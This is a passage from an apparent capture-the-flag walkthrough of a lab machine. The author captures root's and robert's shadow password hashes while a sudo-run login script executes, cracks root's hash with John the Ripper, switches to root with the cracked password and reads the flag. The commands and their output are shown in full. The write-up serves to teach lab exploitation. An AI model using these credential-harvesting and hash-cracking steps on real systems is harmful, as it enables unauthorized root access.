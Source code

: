 Yes we can. so we just first the command to execute

```sh
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password: root
Incorrect pass
```

Ok this of course failed, but did our script catch something?

```sh
robert@obscure:/tmp/bob$ python3 grabber.py
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

Yes! well, yes. We got the hashes for `robert` and root. We can ask john, we put root's hash in a hash named file on our local machine

```sh
$cat hash
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1

$john hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
mercedes         (?)
1g 0:00:00:00 DONE 2/3 (2020-03-29 01:26) 4.000g/s 4096p/s 4096c/s 4096C/s crystal..random
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got a password: `mercedes`. Can we switch to root with this rubbish so CTF password? Yes!

```
robert@obscure:/tmp/bob$ su root
Password:
root@obscure:/tmp/bob# cd
root@obscure:~# id
uid=0(root) gid=0(root) groups=0(root)
root@obscure:~# cat root.txt
512fd4429f33a113a44d5acde23609e3
root@obscure:~#
```
